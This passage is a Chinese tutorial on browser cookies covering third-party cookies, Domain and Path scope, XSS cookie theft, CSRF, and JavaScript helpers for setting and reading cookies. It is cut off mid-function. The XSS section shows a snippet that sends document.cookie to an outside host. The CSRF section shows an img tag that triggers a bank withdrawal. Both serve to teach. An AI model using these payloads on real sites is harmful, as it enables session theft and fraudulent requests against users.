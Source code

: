 对于其中的原理，可以举个例子说明：

当你访问 `a.example.com` 这个网站的时候，这个网站中引用了广告商 `ad.com` 的广告，当广告内容被下载后，广告提供商的脚本会设置一个属于 ad.com 的 cookie 。下次当你访问 `b.example.com` 的时候，这个网站的广告也是 `ad.com` 提供的，此时向 `ad.com` 请求广告内容的时候就会携带上次访问 `a.example.com` 的时候设置的 cookie 。

对于现代浏览器都提供了禁止第三方 cookie 的选项。  

### cookie 的注意事项

#### Domain 和 Path

域名和路径定义了一个 cookie 的可见范围，它告诉浏览器这个 cookie 的归属范围。出于安全原因， domain 只能设置为当前域名的上层域名，比如在 `example.com` 下就不能把 cookie 的 domain 设置为 `a.example.com` ，而 `a.example.com`可以设置 cookie 的 domain 为 `example.com`

对于 path ，如果一个 cookie 的 path 为 `/doc` 那么在 ``/doc/` 下面的所有页面都能访问到这个 cookie （前提是 domain 也是满足要求）

#### 跨站脚本 - cookie 盗窃

一个 web 页面中可以包含来自其他站点的 js 脚本，而这些脚本是可以访问到该网站下的 cookie 的，这种情况下这些脚本就可能将 cookie 内容发送出去。比如采用下面方法，将 cookie 发送给 www.foo.com

```javascript
var img = document.createElement(‘img’);
img.src = ‘www.foo.com?’+ ‘text=’ + escape(document.cookie);
```

#### 跨站伪造请求

假如，Mallory 在访问 Bob 的博客的时候在他的博客中留言，其中包含如下内容：

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果 Bob 访问过银行的网站，且其中的 cookie 还没有过期，那么当 Bob 在访问自己的博客的时候，就会加载这幅图片，就会想 `bank.example.com` 发起请求，这样就形成了一次伪造的请求。

### 使用 javascript 操作 cookie

```javascript
util.setCookie = function(name, value, dayToLive, option) {
	var cookie = name + '=' + encodeURIComponent(value);
	if (typeof dayToLive === 'number') {
		cookie += ';max-age=' + (dayToLive * 24 * 60 * 60);
	}
	if (option) {
		for (var key in option) {
			if (key === 'path') {
				cookie += ';path=' + option[key];
			} else if (key === 'domain') {
				cookie += ';domain=' + option[key];
			} else if (key === 'secure') {
				cookie += ';secure';
			}
		}
	}
	document.cookie = cookie;
};

util.getCookie = function(name) {
	var cookie = document.cookie;
	var list = cookie.split(/;\s/);
	for (var i = 0; i < list.length; i++) {
		var pair = list[i].split('=');
		if (pair[0] == name) {
			return decodeURIComponent(pair[1]);
		}
	}
```